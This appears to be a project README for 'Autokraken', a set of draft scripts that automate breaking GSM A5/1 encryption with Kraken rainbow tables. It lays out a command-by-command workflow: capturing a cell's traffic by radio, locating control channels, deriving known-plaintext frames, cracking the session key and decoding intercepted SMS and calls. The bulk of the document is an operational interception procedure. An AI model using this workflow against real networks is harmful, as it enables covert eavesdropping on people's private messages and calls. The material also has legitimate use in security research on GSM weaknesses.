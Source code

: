 # Autokraken

_Warning: those are currently dirty drafts.  It works for us but would need to be heavily reviewed to work any other platform._

A set of scripts to automate the cracking of captured GSM/G2 network traffic with Kraken, and to extract SMS and voice calls out of it.  This is not frequency hopping capable.

## Requirements

Few command line utilities

        which sed
        which awk
        which grep
        which cut
        which wc

Few packages for stage 1

        apt install python3 tcpdump tshark gr-gsm -y

Optionally `gsmframedecoder` when dealing with SI5,6 instead of idle frames, but then you would also need obtain HEX version of the bursts, be it with the old Airprobe or Wireshark

	cd /root/KRAKEN/
	#git clone https://github.com/flyopenair/gsmframecoder.git
	wget http://www.ks.uni-freiburg.de/download/misc/gsmframecoder.tar.gz
	tar xzf gsmframecoder.tar.gz
	cd gsmframecoder/
	g++ BitVector.cpp GSMFrameCoder2.cpp -o gsmframecoder

And of course Kraken with ready to serve rainbow table indexes

## Introduction

You can separate stages 0,1 and 2,3 for resp. capturing and cracking.  Simply send the bitstring file from the former to the latter and proceed.

## Stage 0 - capture and get the cfile(s) ready

	arfcn=

        cd /root/KRAKEN/autokraken/stage0/

PPM is hardcoded for convenience, you have to tune it for now

	vi capture.bash

	hppm=

recording for 140 seconds

	./capture.bash $arfcn

## Stage 1 - define known plain-text frame

_requires GR-GSM and a cfile_

Extract broadcast control channel

        cd /root/KRAKEN/autokraken/stage1/
	./json0C $arfcn

and take the chance to check that there is no hopping

Find out about the SDCCH timeslot and subchannel numbers to track

	#./parse.py 0C /root/capture/$arfcn.cfile.0C.json
	./jsonreader.py /root/capture/$arfcn.cfile.0C.json

	slot=
	sub=

Extract dedicated control channel and look for idling frames or SI5,6 around the Ciphering Mode Command.  It is necessary here to specify the subchannel so we won't get any irrelevant frames and bitstrings to crack later-on.

	echo $arfcn $slot $sub
	./jsonXS $arfcn $slot $sub

and take the chance to check that we've got A5/1 here, not A5/3

Now seek for idling frames around the Ciphering Mode Command

	#./parse.py XS /root/capture/$arfcn.cfile.${slot}S$sub.json
	./grabCMC $arfcn $slot $sub

	plainframe=

Eventually send the bitstring file to the Kraken server.

        scp /root/capture/$arfcn.cfile.${slot}S$sub kraken:/root/capture/

## Stage 1.5 - SI5 Timing Advance

_skip this step for idling frame_

Have a look at Timing Advance and in case it is not `x00` already, copy/paste the HEX from wireshark starting at SACCH L1 Header (23 bytes).  Look byte offset `1`.  This will become `x00` and converted to bitstrings thanks to gsmframedecoder.

	/root/KRAKEN/gsmframecoder/gsmframecoder HEX | grep ^[[:digit:]] > /root/capture/si5

## Stage 2 - define the cipher-text frames

_requires Kraken and the bitstring file_

Make sure the variables are still defined

	screen -S KRAKEN
	cd /root/KRAKEN/autokraken/stage2/
	string=/root/capture/$arfcn.cfile.${slot}S$sub
	echo $plainframe

Tune your path against Kraken and Utilities

        vi feedcrack.conf

	kraken=/root/KRAKEN/kraken

XOR plain bitstrings with cipher bitstrings for idling frames

	echo $slot $sub $plainframe
	./getemptyframeplain /root/capture/$arfcn.cfile.${slot}S$sub $plainframe
	./getemptyframecipher /root/capture/$arfcn.cfile.${slot}S$sub $plainframe
	./feedemptyframe $string $plainframe
	ls -lhF /root/capture/$arfcn.cfile.${slot}S$sub.*.emptyframe*

--or-- for SI5

	ls -lhF /root/capture/si5
        echo $string $plainframe
	./guesssi5 $string $plainframe
	./feedcrack $string $plainframe

Feed those into Kraken interactivelty

	cd /root/KRAKEN/kraken/Kraken/
	ls -lhF /dev/sdb2
	ls -lhF ../indexes/

Idling frame

	head /root/capture/$arfcn.cfile.${slot}S$sub.$plainframe.emptyframe234
        ./kraken ../indexes < /root/capture/$arfcn.cfile.${slot}S$sub.$plainframe.emptyframe234

SI5

	head /root/capture/crackxors
        ./kraken ../indexes < /root/capture/crackxors

## Stage 2 automated

	./crack /root/capture/$arfcn.cfile.${slot}S$sub $plainframe

## Stage 3 - verify the key

Tune the hardcoded path against Utilities

	cd /root/KRAKEN/autokraken/stage3/
	vi feedkc

	utilspath=/root/KRAKEN/kraken/Utilities

reach back to the previous frame number and xored bitstring to feed the key check

	./feedkc <xored bitstring> /root/capture/$arfcn.cfile.${slot}S$sub.$plainframe.emptyframe1234

COPY/PASTE THE KEY AND @ E.G.

	/root/KRAKEN/kraken/Utilities/find_kc <FOUND KEY> <BITOPS> <BURST FRAME NUMBER> <PREV BURST FRAME NUMBER> <PREV BURST XORED BITSTRING>

## Acceptance

You can now sniff into the ciphered text

	grgsm_decode --cfile=/root/capture/$arfcn.cfile --arfcn=$arfcn --mode=SDCCH8 --timeslot=$slot --subslot=$sub --a5=1 --kc=KEY-HERE

## Resources

GSM Cracking: SMS w/ Kraken – Software Defined Radio Series #16
https://www.crazydanishhacker.com/gsm-cracking-sms-kraken-software-defined-radio-series-16/

Bosma, Soeurt, 2012
Eavesdropping on and decrypting of GSM communication
https://www.os3.nl/_media/2016-2017/courses/ot/jeffrey_joris.pdf

GSM hack France
https://hackbbs.org:86/index.php/GSM_hack_France

